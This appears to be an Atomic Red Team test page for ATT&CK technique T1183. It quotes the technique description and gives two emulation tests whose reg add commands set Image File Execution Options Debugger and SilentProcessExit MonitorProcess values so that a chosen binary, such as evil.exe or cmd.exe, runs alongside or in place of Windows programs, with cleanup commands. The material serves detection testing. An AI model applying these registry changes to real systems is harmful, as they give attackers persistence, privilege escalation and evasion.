 # T1183 - Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1183)
<blockquote>Image File Execution Options (IFEO) enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., “C:\dbg\ntsd.exe -g  notepad.exe”). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code><executable></code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IEFO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

An example where the evil.exe process is started when notepad.exe exits: (Citation: Oddvar Moe IFEO APR 2018)

* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"</code>

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may be abused to obtain persistence and privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Endgame Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous invocation.

Malware may also use IFEO for Defense Evasion by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)


<br/>

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:\Windows\System32\calc.exe|
| payload_binary | Binary To Execute | Path | C:\Windows\System32\cmd.exe|


#### Attack Commands: Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:
```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f
```





<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:\Windows\System32\notepad.exe|
| payload_binary | Binary To Execute | Path | C:\Windows\System32\cmd.exe|


#### Attack Commands: Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:
```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f
```





<br/>
